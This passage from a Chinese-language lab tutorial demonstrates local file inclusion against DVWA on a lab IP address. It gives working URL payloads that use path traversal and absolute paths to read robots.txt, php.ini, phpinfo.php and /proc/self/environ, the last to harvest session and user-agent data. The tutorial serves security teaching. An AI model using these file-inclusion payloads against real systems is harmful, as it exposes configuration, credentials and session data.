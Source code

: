 页面上提示我们修改 GET 参数值就可以包含文件，此时我们并不知道上面有哪些文件，该平台是 Linux 亦或者是 Windows，我们可以随便拟一个参数让其访问，他会曝出这样的错误：

![show-dirc](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384855192.png/wm)

从曝出的错误来看，我们可以获得两条消息：

- 运行的平台是在 Linux 中，不是在 Windows 中，因为 Windows 中没有 /var/www/ 的目录结构
- 运行的根目录在 /var/www/dvwa 中

在 PHP 中会在网站的根目录中放置一个 robots.txt 的文件，改文件用于限制或者告诉告诉搜索引擎，网站中哪些目录、内容的访问权限。

我们在 URL 中输入这样的地址：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=../../robots.txt
```

回车访问后我们会发现我们得到这样的结果：

![show-robots](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384873193.png/wm)

并且我们上文使用的是相对路径，我们还可以使用绝对路径来访问：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

我们会得到同样的结果。

我们还可以通过这样的方式访问到网站根目录中的 php 配置文件：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/php.ini
```

![show-phpini](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384883804.png/wm)

我们还可以访问 php 的 info 文件，查看本设备中 php 的详细配置：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/phpinfo.php
```

![show-phpinfo](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384894577.png/wm)

从该页面我们便可获取到非常多的信息了，从 php 的内核版本到 API 接口配置文件所在等等，往下翻可以看到所有的配置参数的值，这样可以免去很多因为配置参数没有打开或者某个漏洞在高版本中修复而无法攻击的尝试工作，大大的增大了我们的效率。

就如我们之前所谈到的 `allow_url_include` 与 `allow_url_fopen` 两个参数，我们可以看到此时两个参数是否打开：

![show-option](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384905647.png/wm)

如果说这些都不是太大的问题，那么若是包含这个文件，问题就大了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/proc/self/environ
```

从这个文件中我们可以获取到用户的 session 信息，还有 user-agent，通过这些信息我们就可以做很多文章了：

![show-cookie](https://doc.shiyanlou.com/document-uid113508labid2425timestamp1482384916455.png/wm)
